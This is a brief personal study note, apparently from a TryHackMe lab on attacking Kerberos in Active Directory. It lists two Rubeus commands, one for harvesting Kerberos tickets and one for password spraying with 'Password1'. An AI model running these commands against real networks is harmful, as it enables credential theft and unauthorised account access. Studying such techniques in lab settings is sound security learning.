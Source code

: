 Links: [[00 - Global Index (Start Here!)]] [[03 - Try Hack Me]] [[Active Directory]] [[Attacking Kerberos]]
# [03 - Harvesting and Brute-Forcing Tickets with Rubeus]
## Notes
---
Password harvesting
```powershell
Rubeus.exe harvest /interval:30
```

Password Spraying
```powershell
Rubeus.exe brute /password:Password1 /noticket
```